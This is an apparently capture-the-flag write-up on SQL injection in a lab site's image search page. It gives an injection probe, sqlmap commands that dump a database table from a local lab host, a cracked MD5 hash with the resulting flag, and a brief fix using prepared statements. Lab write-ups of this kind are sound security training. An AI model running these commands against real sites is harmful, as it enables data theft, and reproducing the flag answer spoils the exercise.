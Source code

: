 # 01_Inject_me_img

The GET parameter in the image search form is vulnerable.

## Method

Go to ?page=searchimg.  
In the search field, search `1 AND 1=1`

## How to exploit
fast:
sqlmap -u "http://192.168.1.75/index.php?page=member&id=5&Submit=Submit#" --dump -D Member_images --tables -T list_images
slow:
sqlmap -u "http://192.168.1.75/?page=searchimg&id=1&Submit=Submit#" --dump -T list_images
-u=url
-D=Database
-T=Table

If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 

MD5(1928e8083cf461a51303633093573c46)
sha256(albatroz)
F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188

## Solution

- Send form as POST request
- Add prepared statements to backend to prevent SQL injection
